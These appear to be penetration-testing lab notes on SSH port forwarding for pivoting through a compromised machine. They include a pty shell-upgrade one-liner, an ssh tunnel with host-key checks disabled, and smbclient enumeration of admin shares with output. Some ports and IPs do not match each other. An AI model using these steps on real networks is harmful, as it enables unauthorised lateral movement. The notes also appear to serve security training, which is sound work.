 ## Local SSH Port Forwarding

Szenario

* Attacker has SSH access on victims machine
* Attacker forwards local port with no firewall in between
* Attacker establish a tunnel from victim to attacker between app and db to attack backend server
* From 0.0.0.0:4545 (app server)
* To to 172.16.187.217:4545 (db server)

Victim

* -v verbose
* -N don't open shell
* -L local port forwarding
* -o "UserKnownHostsFile=/dev/null" ignore hosts file
* -o "StrictHostKeyChecking=no" ignore host key

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -v -N -L 0.0.0.0:4455:172.16.187.217:4545 database_admin@10.4.187.215 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"

ss -ntplu | grep "0.0.0.0:4545"
tcp    LISTEN  0       128                  0.0.0.0:4545          0.0.0.0:*      users:(("ssh",pid=3516,fd=4))

```

Attack

* -L list SMB shares
* -p port
* -U user
* --password pw

```bash
smbclient -p 4545 -L //192.168.187.63/ -U hr_admin --password=$PW

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
```

## Dynamic SSH Port Forwarding

Scenario

* Use proxychains to attack multiple ports via victims port
* Requires a gcc compiler
* Download `https://github.com/rofl0r/proxychains-ng`
